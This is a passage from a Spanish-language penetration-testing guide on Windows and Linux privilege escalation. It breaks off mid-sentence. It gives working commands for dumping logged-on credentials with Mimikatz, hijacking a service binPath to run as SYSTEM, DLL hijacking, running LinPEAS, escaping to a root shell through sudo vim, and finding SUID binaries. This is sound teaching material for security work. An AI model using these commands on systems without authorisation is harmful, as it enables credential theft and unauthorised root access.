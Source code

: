 ### 8.3.2. Uso de credenciales en memoria

Con **Mimikatz**:

```plaintext
privilege::debug
sekurlsa::logonpasswords
```

### 8.3.3. Abuso de servicios mal configurados

Si un servicio se ejecuta como SYSTEM pero permite modificar su ejecutable:

```powershell
sc stop ServicioVulnerable
sc config ServicioVulnerable binPath= "C:\Windows\System32\cmd.exe /c calc.exe"
sc start ServicioVulnerable
```

### 8.3.4. Escalada por DLL Hijacking

1. Encontrar rutas de DLL no seguras (`procmon`).
2. Colocar una DLL maliciosa en la ruta cargada por el proceso.

---

## 8.4. Escalada en Linux

### 8.4.1. Enumeración inicial

Usar **LinPEAS**:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### 8.4.2. Abuso de sudo mal configurado

Si el usuario puede ejecutar un comando como root sin contraseña:

```bash
sudo vim -c ':!bash'
```

Esto abre una shell como root.

### 8.4.3. Explotación de SUID

Buscar binarios SUID:

```bash
find / -perm -4000 2>/dev/null
```

Ejecutar con escalada, por ejemplo con `nmap`:
